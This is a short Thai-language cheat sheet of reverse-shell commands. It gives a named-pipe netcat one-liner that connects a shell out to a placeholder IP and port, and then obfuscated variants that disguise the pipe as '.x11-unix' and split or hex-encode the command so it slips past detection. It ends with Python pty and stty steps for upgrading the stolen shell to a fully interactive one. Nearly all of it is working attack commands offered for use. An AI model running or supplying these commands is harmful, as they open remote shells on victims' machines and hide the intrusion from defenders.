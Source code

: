 Shell แบบต่างๆ
---------------

แบบใช้ได้ทุกระบบ เก่าๆก็ใช้ได้

แบบไม่ได้เข้ารหัสหรือทำ evas
sh -c 'rm -f /tmp/f;mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc <ip> <port> > /tmp/f'

แบบ Split หลบ
Obfuscation + No base64
ก่อน
sh -c 'rm -f /tmp/.x11-unix;mkfifo /tmp/.x11-unix; cat /tmp/.x11-unix | sh -i 2>&1 | nc <ip> <port> > /tmp/.x11-unix'

หลัง แต่ยังหลบไม่มากเพราะยังมี nc, sh -i ชัดเจนอยู่
sh -c "$(echo r$(echo m\ -f\ /tmp/.x11-unix\;\ mkfifo\ /tmp/.x11-unix\;\ cat /tmp/.x11-unix\|sh\ -i\ 2>&1\|nc\ IP\ Port\ >\ /tmp/.x11-unix) )"
Note: ใช้ชื่อ .x11-unix เพื่อพราง

ต่อไปแบบหลบขั้นสูงขึ้น
$(printf \\x6e\\x63)   = nc
เข้ารหัสเป็น hex

---------------------
python upgrade shell
python -c 'import pty; pty.spawn("/bin/bash")'

---------------------
Upgrade shell อีกทาง
เพื่อให้เราใช้ sudo, ลูกศรชี้ขึ้น ลง ... ได้เพื่อให้สะดวกต่อการใช้คำสั่งต่างๆ
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
Ctrl+Z
stty raw -echo; fg
<Enter>
export PS1="\u@\h:\w$ "
alias ll='ls -la'
